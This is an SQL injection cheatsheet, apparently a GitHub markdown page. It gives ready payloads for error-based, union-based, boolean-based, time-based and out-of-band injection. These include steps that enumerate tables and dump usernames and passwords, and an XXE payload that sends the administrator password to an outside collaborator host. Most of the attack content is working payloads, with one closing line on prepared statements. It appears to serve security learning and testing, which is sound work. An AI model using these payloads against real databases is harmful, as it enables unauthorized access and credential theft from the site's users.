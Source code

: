 # SQL Injection (SQLi) Cheatsheet

⚠️ **Alert:** This cheatsheet does not contain syntax for all SQL languages. You can understand the logic from here and apply it by yourself. For exact syntax, visit the [PortSwigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

---

## What is SQL Injection?

SQL Injection (SQLi) is a vulnerability where an attacker interferes with the SQL queries an application makes to its database. This can lead to unauthorized access, data modification, or even taking control of the server.

---

## Impact of SQL Injection Attacks

1. **Unauthorized Access:** Attacker can access sensitive data like usernames, passwords, and credit card info.  
2. **Data Manipulation:** Attacker can modify, delete, or corrupt data.  
3. **Service Disruption:** Attacker can crash the database or make it unavailable.  
4. **Remote Code Execution:** In severe cases, an attacker can execute commands on the server.  

---

## Types of SQL Injection
![SQL Injection Types](https://your-image-link-here.com/TypesofSQLInjection.png)

---

### In-Band SQL Injection

In-band SQLi happens when the attacker uses the same communication channel to send the attack and receive results. This is the easiest and most common type of SQLi.

- Data is often shown directly on the web page.  
- Easier to exploit compared to other types of SQLi.  
- Two common types of in-band SQLi:  
  - Error-based SQLi  
  - Union-based SQLi  

---

#### 1. Error-Based SQL Injection

This technique makes the database generate an error message, which gives the attacker useful information.

**Payloads:**
```sql 
' AND CAST((SELECT 1) AS int)--  
' AND CAST((SELECT password FROM users LIMIT 1) AS bool)--  
' AND CAST((SELECT password FROM users LIMIT 1 OFFSET 0) AS bool)--  
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--  
```
---

#### 2. Union-Based SQL Injection

This technique uses the `UNION` SQL operator to combine results from two queries into one response.

**Payloads:**  

**Step 1: Check Number of Columns**  
```sql 
' ORDER BY 1--  
' UNION SELECT NULL, NULL-- 
``` 
**Step 2: Check Data Types (if needed)**  
```sql  
' UNION SELECT 'batman', NULL, NULL--  
' UNION SELECT NULL, 'batman', NULL--  
' UNION SELECT NULL, NULL, 'batman'--  
' UNION SELECT 'a', 1 FROM dual--  
```
**Step 3: Find Table Names**  
```sql   
' UNION SELECT table_name, NULL FROM information_schema.tables--  
' UNION SELECT table_name FROM all_tables--  
```
**Step 4: Find Column Names**  
```sql   
' UNION SELECT column_name, NULL FROM information_schema.columns--  
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users'--  
' UNION SELECT column_name, NULL FROM all_tab_columns--  
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'users'--  
```
**Step 5: Dump Data**  
```sql  
' UNION SELECT username, password FROM users--  
' UNION SELECT username || ':' || password, NULL FROM users--  
```
---

### Blind (Inferential) SQL Injection

In blind SQLi, no data is directly shown on the web page. Instead, the attacker observes how the application behaves to infer information.

- Just as dangerous as in-band SQLi.  
- Takes longer to exploit.  
- Two types of blind SQLi:  
  - Boolean-based SQLi  
  - Time-based SQLi  

---

#### 1. Boolean-Based SQL Injection

This technique checks if a condition is true or false by observing different application responses.

**Payloads:** 
```sql  
' AND 1=1--  
' AND (SELECT LENGTH(username) FROM users WHERE username = 'administrator') = 14--  
' AND SUBSTRING((SELECT username FROM users WHERE username = 'administrator'), 1, 1) = 'a'--  

'||(SELECT 'hello')||'  
'||(SELECT '' FROM dual)||'  
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual)--  
```
---

#### 2. Time-Based SQL Injection

This technique makes the database pause for a set amount of time, which helps determine if a condition is true.

**Payloads:** 
```sql  
'||pg_sleep(10)||'  
'||sleep(10)||'  
'||(SELECT sleep(10))||'  
'||(SELECT pg_sleep(10))||'  

'||(SELECT CASE WHEN ((SELECT LENGTH(username) FROM users WHERE username='administrator')=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)||'  
```
---

## 🧠 Advanced Blind SQLi Payloads

**Find Current Database Name:**  
```sql  
SELECT SUBSTRING((SELECT DATABASE()),1,1);  
```
**Display All Databases:**  
```sql 
SELECT SUBSTRING((SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 4),1,1);  
```
**Find Table Names:**  
```sql 
SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 10),1,1);  
```
**Find Column Names:**  
```sql 
SELECT SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 3),1,1);  
```
**Dump Data:**  
```sql  
SELECT SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1);  
```
---

## Out-of-Band SQL Injection

This type of SQLi triggers an out-of-band network connection to a system controlled by the attacker.

- Less common but powerful.  
- Uses protocols like DNS or HTTP.  

**Payloads:**
```sql  
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://1suq662zugex0quam6iqkwqbn2tthj58.oastify.com"> %remote;]>'),'/l') FROM dual--  

' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://' || (SELECT password FROM users WHERE username='administrator') || '.ccs1qhmaery8k1el6h2147am7dd41xpm.oastify.com"> %remote;]>'),'/l') FROM dual--  
```

---

🧠 **Pro Tip:** Always use prepared statements and parameterized queries to prevent SQLi. Tools like [SQLMap](https://sqlmap.org/) can help with automated testing, but understanding the logic here will help you a lot.

---

Let me know if you want me to add, tweak, or simplify anything else! 🚀
